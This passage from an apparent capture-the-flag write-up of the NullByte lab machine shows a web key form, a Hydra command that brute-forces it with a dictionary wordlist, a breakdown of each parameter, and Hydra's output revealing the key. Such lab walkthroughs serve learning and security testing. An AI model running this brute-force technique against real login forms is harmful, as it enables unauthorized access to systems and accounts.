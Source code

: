 {% img center /images/pentest/nullbyte/key.png 'key' 'key form' %}

And in the source, there is a comment stating that "this form isn't connected to mysql, password ain't that complex". Ok, so no SQLi then. I took the hint and set to brute forcing the password. I used Hydra for this, so I had to take note of the form parameters:

``` html
<center>
<form method="post" action="index.php">
Key:<br>
<input type="password" name="key">
</form>
</center>
```

Also, trying the wrong key gives the message invalid key. Armed with this info, I constructed the Hydra query:

``` plain
hydra 192.168.217.135 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -l meh -P /usr/share/dict/words -t 10 -w 10
```
This looks ugly, so let me break it into pieces:

* 192.168.217.135 = target name

* http-form-post = the method used

* "/kzMb5nVYJw/index.php" = URL

* key=^PASS^:invalid key" = the form parameter is called key, the PASS variable will be replaced with passwords from the password file, and Hydra will see as successful a response that doesn't contain the string "invalid key"

* -l meh = you have to specify a username for Hydra to work, even though in this case there was no user, so I put something random

* -P /usr/share/dict/words = password File

* -t 10 = number of Threads

* -w 10 = timeout value

``` plain
Hydra v8.3 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2017-04-18 13:11:54
[DATA] max 10 tasks per 1 server, overall 64 tasks, 99171 login tries (l:1/p:99171), ~154 tries per task
[DATA] attacking service http-post-form on port 80
[STATUS] 1170.00 tries/min, 1170 tries in 00:01h, 98001 to do in 01:24h, 10 active
[STATUS] 1173.33 tries/min, 3520 tries in 00:03h, 95651 to do in 01:22h, 10 active
[STATUS] 1173.86 tries/min, 8217 tries in 00:07h, 90954 to do in 01:18h, 10 active
[STATUS] 1174.00 tries/min, 17610 tries in 00:15h, 81561 to do in 01:10h, 10 active
[STATUS] 1174.32 tries/min, 36404 tries in 00:31h, 62767 to do in 00:54h, 10 active
[80][http-post-form] host: 192.168.217.135   login: meh   password: elite
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-04-18 13:45:57
```
